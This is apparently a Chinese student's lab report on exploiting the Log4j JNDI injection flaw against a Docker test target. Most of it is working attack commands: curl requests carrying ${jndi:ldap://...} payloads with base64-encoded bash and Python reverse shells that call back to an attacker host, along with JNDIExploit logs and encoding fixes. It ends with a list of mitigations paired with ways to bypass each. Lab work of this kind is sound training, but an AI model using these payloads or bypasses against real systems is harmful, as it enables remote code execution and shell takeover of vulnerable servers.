


# 实验准备

首先进行环境部署


验证能够成功打开网页


按照视频将docker中的demo.jar文件复制到本机上


## 靶机ip

__192.168.8.129__

## 攻击者ip 

__192.168.8.132__

# 进行shell反弹测试

## 按照教程进行攻击者与靶机准备。

在进行shell反弹时遇到问题：网站并不接受POST请求；可以接受get请求，但是无法验证shell反弹内容

课件中所给的命令使用-d强制指定POST请求，
```bash
curl http://192.168.8.129:33863/hello -d 'payload=${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'
```
但是在本地的多次测试中，无法使用POST请求，在改用GET请求时，可以正常返回"ok"，但是没有反弹shell反应。
```bash
curl "http://192.168.8.129:33863/hello?payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/443 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')}"
```
~~__可能是网络问题，后续会再次进行测试。__~~

改用强制使用GET请求，能够监听到LDAP请求，说明漏洞触发成功，但是无法反弹shell


换为尝试python3的反弹shell
```bash
# 生成 Python3 反弹 Shell 的 Base64 编码
payload='python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.8.132\",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"'

# 编码并构造 Payload
encoded_payload=$(echo -n "$payload" | base64 -w 0 | sed 's/+/%252B/g; s/=/%253D/g')

# 发送请求
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_payload}}"
ok     
```

在JNDI中得到如下输出
```bash
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
```
同时仍然无法完成反弹shell。根据以上日志可知，问题出在参数解析错误（Incorrect params），这表明 JNDIExploit 无法正确处理发送的 Base64 编码后的 Python 反弹 Shell 命令。

在反复尝试多次之后，发现可能的原因是JNDIExploit 可能对 URL 编码后的 %2B（+）和 %3D（=）敏感，导致无法正确解析 Base64 编码后的命令。
尝试调整，移除填充符 = 并简化编码：
```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'

# Base64 编码后移除填充符 `=`，并替换特殊符号
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=' | sed 's/+/%2B/g')

# 发送请求（注意不再手动编码 `=`）
curl -G "http://192.168.8.129:48217/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```


## 在以上两步中经历的curl修改

### 1. 尝试移除“=”填充符

```bash
payload='python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.8.132\",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"'
encoded_payload=$(echo -n "$payload" | base64 -w 0 | tr -d '=' | sed 's/+/%252B/g; s/\//%252F/g')
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_payload}}"
```
JNDIExploit 反复报错 Incorrect params。
__问题分析__
Base64 编码嵌套问题：Payload 是 bash -c {echo,...}|{base64,-d}|{bash,-i} 的 Base64 编码，但 JNDIExploit 似乎无法处理这种嵌套结构。日志显示工具接收到了 LDAP 查询，但在解析 TomcatBypass/Command/Base64/... 时失败。
特殊字符干扰：Base64 字符串中的 =（填充符）和 |、{、} 等符号可能被错误解析。

### 2.简化命令格式，避免使用 bash -c {echo,...}|... 这种复杂结构，改用直接命令

```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | sed 's/+/%252B/g; s/=/%253D/g')
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
JNDIExploit 接收到了正确的 Base64 编码命令（YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguMTMyLzc3NzcgMD4mMQ== 解码后为 bash -i >& /dev/tcp/192.168.8.132/7777 0>&1），但仍然报错 Incorrect params。
__问题分析__
JNDIExploit 工具本身对参数的处理上可能有一定问题。

### 3.调整 Base64 编码方式，移除“=”填充符并简化特殊符号处理

```bash
cmd='bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguMTMyLzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}'
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=')
curl -G "http://192.168.8.129:58468/hello" \ --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
报错及问题与第一次的问题类似，不多赘述。

### 4.调整 Base64 编码格式。JNDIExploit 可能对 URL 编码后的 %2B（+）和 %3D（=）敏感，尝试移除填充符“=”并简化编码。得到完成的代码。

# ~~作业途中偶遇哈吉网站，拒绝POST请求疯狂哈气，拼尽全力，无法战胜~~
我们胜利了...暂时的

# 漏洞缓解与绕过测试

## 缓解的方法在初步来看有以下几种：

__1.修改环境变量，禁用JNDI查找__

__2.直接移除JNDI相关类__

__3.网络层控制（出站规则：阻止应用服务器发起任意LDAP/RMI请求；入站规则：限制外部对JNDI端口的访问）__

__4.使用WAF或API网关拦截恶意请求__

__5.降级到历史版本__(此方法有效性需要额外验证)

__6.日志监控__

## 以上方法对应的绕过方法

__1.可能可以利用上下文递归解析__

__2.利用其他Lookup类__

__3.使用非标准端口,DNS外带数据,HTTP协议中转__

__4.Unicode/Hex编码,大小写变形，空白符插入__

__5.在网络上搜索得知2.12.2及以下版本仍可通过线程上下文Map（ThreadContext Map）触发RCE__

__6.反射调用：通过Java反射动态触发JNDI__

# 漏洞修复

准备尝试使用更新到最新版本的办法